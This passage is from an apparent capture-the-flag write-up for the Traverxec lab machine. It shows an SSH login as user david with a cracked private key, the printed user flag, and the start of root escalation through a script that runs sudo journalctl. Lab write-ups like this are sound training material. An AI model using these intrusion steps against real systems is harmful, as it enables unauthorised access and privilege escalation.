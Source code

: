## user privilege escalation 
Back on the traverxec box, I ssh into the server using the passphrase decrypted above with private key I found - as user david:

```
www-data@traverxec:/tmp/home/david/.ssh$ ssh -i id_rsa david@traverxec.htb
Could not create directory '/var/www/.ssh'.
The authenticity of host 'traverxec.htb (127.0.1.1)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ 
david@traverxec:~$ whoami
david
david@traverxec:~$ 
```

user flag was in the home directory:
```
david@traverxec:~$ cd /home/
david@traverxec:/home$ ls
david
david@traverxec:/home$ cd david/
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt 
7db0b48469606a42cec20750d9782f3d
```

## root privilege escalation

in davids home directory there is a folder called bin with a .sh file in it.  I catted that file to see what it does:
```
# cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```
^ the last line is key.  The script for some reason (i dont know why) can run sudo followed by journal ctl to basically spit out the last 5 lines of unostromo service logs.  Up until now I've been asked for a password everytime I attempted sudo.  Not this time:
